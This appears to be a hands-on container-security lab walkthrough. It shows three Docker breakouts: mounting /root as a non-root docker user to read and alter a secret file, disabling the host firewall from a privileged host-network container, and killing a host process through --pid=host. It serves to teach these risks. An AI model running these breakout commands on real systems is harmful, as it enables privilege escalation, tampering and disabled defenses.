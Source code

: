 # Container Breakout - Multiple Attacks

> #### Gaining access and tampering Host resources from a container

### **Lab Image : Containers**

---

## Volume Mounts

* Step 1: Validate that you are the `root` user on the provisioned server

```commandline
whoami
```

* Step 2: Validate that there's a secret file in the root directory

```commandline
cat /root/secret.txt
```

* Step 3: Switch to a non-root user

```commandline
sudo su we45
```
* Step 4: Validate that you are now `we45` user on the provisioned server

```commandline
whoami
```

* Step 5: Check if the non-root user(`we45`) has access to `docker`

```commandline
docker images
```

```commandline
docker ps
```

* Step 6: Try to read the contents of the `secret` file created by the `root` user

```commandline
cat /root/secret.txt
```

* Step 7: As a non-root user(`we45`), launch a container and expose the root-filesystem

```commandline
docker run -ti --rm -v /root:/hostFS/ alpine sh
```

* Step 8: On the container, try to read.

```commandline
cat /hostFS/secret.txt
```

* Step 9: On the container, try and edit the secret file.

```commandline
echo "Tampered data!!" >> /hostFS/secret.txt
```

* Step 10: Read the edited secret file from the container

```commandline
cat /hostFS/secret.txt
```

* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Switch to `root` user

```commandline
exit
```

* Step 13: Now read the secret file as a `root` user

```commandline
cat /root/secret.txt
```

### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## Host Network

---

* Step 1: Check `ufw` status

```commandline
ufw status
```

* Step 2: Enable `ufw`

```commandline
ufw enable
```
* Step 3: Check `ufw` status now

```commandline
ufw status
```

* Step 4: Launch a container binding the host network to the docker network

```commandline
docker run -d --name vul_flask -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
```

* Step 5: Exec into the container environment

```commandline
docker exec -ti vul_flask /bin/bash
```

* Step 6: Check `ufw` is it installed or not inside the container

```commandline
ufw status
```

* Step 7: Now install `ufw` inside the container

```commandline
apt update && apt install -y ufw
```

* Step 8: Check the status of the firewall inside the container

```commandline
ufw status
```

* Step 9: Disable the host machine firewall from a container

```commandline
ufw disable
```
* Step 10: Check the `ufw` status

```commandline
ufw status
```
* Step 11: Exit from the container

```commandline
exit
```

* Step 12: Now check `ufw` status in the server

```commandline
ufw status
```

### Teardown:

* Stop all containers

```commandline
clean-docker
```

---

## PID Boundary

---

* Step 1: Navigate to the `Container Breakout` directory on the provisioned server

```commandline
cd /root/container-training/Container/container-breakout/
```

* Step 2: Multiplex terminal session with `tmux` and split panes.

```commandline
tmux
```

```commandline
tmux split-window -h
```

* Step 3: Create a "Super Important Process" that is to be tampered with

```commandline
command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
```

```commandline
printf "$command" > super_important_process.sh && chmod +x super_important_process.sh
```

* Step 4: Run the "Super Important Process" that was just created and fetch the `Process-ID`

```commandline
./super_important_process.sh
```

* Step 5: With `tmux`, switch to the left panel using `ctrl + b` and then `left arrow key` 

* Step 6: Launch a container and mount the host processes on the container

```commandline
docker run -ti --pid=host --privileged alpine sh
```

* Step 7: Inside the container, try to terminate the "Super Important Process" 

```commandline
kill <Super important process running PID>
```

* Step 8: Exit from the container

```commanline
exit
```

* Step 9: Exit from the `tmux`

```commanline
exit
```

```commanline
exit
```

## Teardown

* Stop all the containers

```commandline
clean-docker
```
